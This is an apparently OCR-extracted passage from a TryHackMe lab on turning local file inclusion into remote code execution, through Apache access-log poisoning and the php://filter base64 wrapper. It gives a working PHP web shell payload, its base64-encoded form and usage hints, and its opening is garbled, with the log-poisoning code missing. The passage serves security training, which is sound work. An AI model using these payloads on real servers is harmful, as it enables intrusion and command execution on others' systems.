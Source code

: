 ```php
</body></html>
```

The code will then be logged in the server's access logs.

![Apache access log containing the injected PHP code](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d9c19f6c916c790bb4fa94e09a5fcaef.png)  

The attacker then uses LFI to include the access log file: `?page=/var/log/apache2/access.log`

![Injected PHP code in the web access log has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/f4a675e26aac4f257dfd24942bcdbd0f.png)


# LFI2RCE - Wrappers
----

#### PHP Wrappers

PHP wrappers can also be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload. 

For example, go to [http://10.10.172.219/playground.php](http://10.10.172.219/playground.php)[](http://10.10.172.219/playground.php).

We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

|   |   |   |
|---|---|---|
|**Position**|**Field**|**Value**|
|1|Protocol Wrapper|php://filter|
|2|Filter|convert.base64-decode|
|3|Resource Type|resource=|
|4|Data Type|data://plain/text,|
|5|Encoded Payload|PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+|

In the table above, `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+` is the base64-encoded version of the PHP code. When the server processes this request, it first decodes the base64 string and then executes the PHP code, allowing the attacker to run commands on the server via the "cmd" GET parameter.  

![Vulnerable application containing the PHP wrapper payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0e01212213a4a512d552b55d22b7014d.png)

**Note:** It is important to not include the **&cmd=whoami** in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.

